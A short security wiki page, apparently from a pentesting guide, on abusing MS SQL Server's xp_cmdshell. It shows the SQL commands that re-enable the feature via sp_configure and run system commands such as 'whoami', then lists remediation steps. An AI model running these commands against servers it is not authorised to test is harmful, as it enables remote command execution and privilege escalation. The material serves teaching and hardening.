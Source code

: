 # MS SQL - xp\_cmdshell Abuse

The _xp\_cmdshell_ is a feature in MS SQL Server for executing system commands, which, if not properly configured, can be abused for achieving privilege escalation, RCE, or data theft.

Here is a guide on how to do this leveraging process once we are inside _MS SQL_:

* Check if _xp\_cmdshell_ is active by trying to execute a system command

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>EXEC xp_cmdshell 'whoami'; #Example
</strong></code></pre>

***

* In case its use is disabled, do the reconfiguration and try the execution again

{% code overflow="wrap" lineNumbers="true" %}
```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami'; #This should now work normally
```
{% endcode %}

## <mark style="color:blue;">Remediation Actions</mark> <a href="#preventing-nosql-injection" id="preventing-nosql-injection"></a>

* Disable _xp\_cmdshell_ if not specifically required for a critical business process
* Ensure that only trusted and minimal users are in the _sysadmin_ fixed server role, which allows enabling _xp\_cmdshell_
* Review SQL server logs for suspicious usage of _xp\_cmdshell_ or _sp\_configure_
* If it´s required to enable _xp\_cmdshell_, compensate with controls like isolating the server/network segment or monitoring all commands executed
